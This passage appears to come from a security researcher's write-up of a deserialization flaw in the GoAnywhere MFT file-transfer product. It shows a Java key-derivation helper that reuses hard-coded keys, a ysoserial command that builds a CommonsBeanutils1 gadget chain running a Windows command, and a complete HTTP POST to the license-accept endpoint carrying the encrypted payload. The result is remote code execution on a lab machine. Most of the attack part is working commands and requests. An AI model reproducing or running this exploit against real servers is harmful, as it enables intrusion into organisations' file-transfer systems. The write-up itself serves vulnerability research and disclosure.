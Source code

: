 ```java
		SecretKeyFactory secretKeyFactory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
		PBEKeySpec pBEKeySpec = new PBEKeySpec((new String(arrayOfByte1, "UTF-8")).toCharArray(), arrayOfByte2, c1, c2);
		SecretKey secretKey = secretKeyFactory.generateSecret(pBEKeySpec);
		return secretKey.getEncoded();
	}
}
```

We simply have to reuse the information gathered before, namely hard-coded keys and usage of Crypto API parameters. The serialized Java object created before with ysoserial goes into the file `/home/user/tmp/mspaint.bin` and the final encrypted Base64-encoded payload is printed to standard out.

First things first: `java -cp /home/user/MFT/lib/commons-beanutils-1.9.4.jar:./ysoserial-master-SNAPSHOT.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /K mspaint" > mspaint.bin`.

Why didn't I call `java -jar ysoserial.jar` instead? Because I wanted to make sure that the proper `commons-beanutils-X.Y.Z.jar` is used, the one provided in GoAnywhere's `lib` directory. Class path order takes care of choosing the proper JAR even though another BeanUtils JAR is included in the ysoserial JAR itself. We don't want to have any issues with mismatches of *serialVersionUID*s, do we?

Now, let's run the `CryptoHelper`: `[+] Encrypted: Jh88/jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS/fjlP7wTTEg2+Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b/.....`. Looks good!

## PoC

The final request is built like this

```
POST /goanywhere/lic/accept HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 3821

bundle=Jh88/jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS/fjlP7wTTEg2%2bJx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b/gYKBi2%2bny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTt....
```

and sent to our lab machine: **RCE**.
